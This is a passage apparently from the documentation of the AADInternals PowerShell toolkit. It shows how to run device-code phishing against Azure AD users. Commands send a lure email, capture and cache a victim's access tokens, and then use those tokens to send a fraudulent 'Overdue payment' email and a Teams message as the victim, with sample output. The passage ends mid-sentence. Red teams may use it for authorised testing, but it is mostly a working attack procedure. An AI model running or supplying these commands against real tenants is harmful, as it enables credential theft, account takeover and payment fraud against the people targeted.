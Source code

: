 The following example sends a phishing email using a customised message. The tokens are saved to the cache.

```powershell
# Create a custom message

$message = '<html>Hi!<br/>Here is the link to the <a href="{1}">document</a>. Use the following code to access: <b>{0}</b>.</html>'

# Send a phishing email to recipients using a customised message and save the tokens to cache

Invoke-AADPhishing -Recipients "wvictim@company.com","wvictim2@company.com" -Subject "Johnny shared a document with you" -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache 
```

```
Code: CKDZ2BURF
Mail sent to: wvictim@company.com
...
Received access token for william.victim@company.com
```

And now we can send email as the victim using the cached token.

```powershell
# Send email as the victim

Send-AADIntOutlookMessage -Recipient "another.wictim@target.org" -Subject "Overdue payment" -Message "Pay this <h2>asap!</h2>"
```

We can also send a Teams message to make the payment request more urgent:

```powershell
# Send Teams message as the victim

Send-AADIntTeamsMessage -Recipients "another.wictim@target.org" -Message "Just sent you an email about due payment. Have a look at it."
```

```
Sent                MessageID         
----                ---------         
16/10/2020 14.40.23 132473328207053858
```

**The following video shows how to use AADInternals for email phishing.**

### Teams <a href="#teams" id="teams"></a>

AADInternals supports sending phishing messages as Teams chat messages.

**Note!** After the victim has “authenticated” and the tokens are received, AADInternals will replace the original message. This message can be provided with -CleanMessage parameter.

The default clean message is:
